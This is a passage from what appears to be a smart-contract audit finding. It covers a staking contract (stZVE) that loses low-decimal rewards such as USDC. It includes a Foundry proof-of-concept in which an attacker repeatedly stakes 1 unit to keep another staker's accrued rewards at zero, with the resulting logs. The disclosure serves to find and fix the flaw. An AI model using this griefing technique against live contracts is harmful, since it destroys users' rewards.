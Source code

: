 ```solidity
      IERC20(_rewardsToken).safeTransferFrom(_msgSender(), address(this), reward);
```
rewards, that were not properly distributed can't be used in new reward periods.

## Vulnerability Detail
[Gist](https://gist.github.com/AtanasDimulski/e2edba2c03e4dd1325b9e73c8fd58ddb)
After following the steps in the above linked [gist](https://gist.github.com/AtanasDimulski/e2edba2c03e4dd1325b9e73c8fd58ddb) add the following test to AuditorTests.t.sol:

```solidity
    function test_RewardsWithLessDecimalsWillBeLost() public {
        vm.startPrank(ZVL);
        zivoeToken.transfer(alice, 5_000_000e18); // this will represent the total stake in the stZVE contract
        zivoeToken.transfer(attacker, 1e18);
        uint256 duration = 30 days;
        stZVE.addReward(address(mockUSDC), duration);
        vm.stopPrank();

        vm.startPrank(alice);
        zivoeToken.approve(address(stZVE), type(uint256).max);
        stZVE.stake(5_000_000e18);
        vm.stopPrank();

        vm.startPrank(simulateYLD);
        mockUSDC.mint(simulateYLD, 50_000e6); // this represent 50_000 USDC tokens to be distributed in 30 days
        mockUSDC.approve(address(stZVE), type(uint256).max);
        stZVE.depositReward(address(mockUSDC), 50_000e6);
        vm.stopPrank();

        vm.startPrank(attacker);
        zivoeToken.approve(address(stZVE), type(uint256).max);
        console2.log("Initial block timestamp: ", block.timestamp);
        skip(249);
        stZVE.stake(1);
        console2.log("The amount that alice have earned after ", block.timestamp, stZVE.earned(alice, address(mockUSDC)));
        skip(249);
        stZVE.stake(1);
        console2.log("The amount that alice have earned after: ", block.timestamp, stZVE.earned(alice, address(mockUSDC))); // after 498 seconds has passed reawrds should have been 5000000
        skip(249);
        stZVE.stake(1);
        console2.log("The amount that alice have earned after: ", block.timestamp, stZVE.earned(alice, address(mockUSDC))); // after 498 seconds has passed reawrds should have been 10000000
        vm.stopPrank();
    }
```

```solidity
Logs:
  Initial block timestamp:  1
  The amount that alice have earned after  250 0
  The amount that alice have earned after:  499 0
  The amount that alice have earned after:  748 0
```
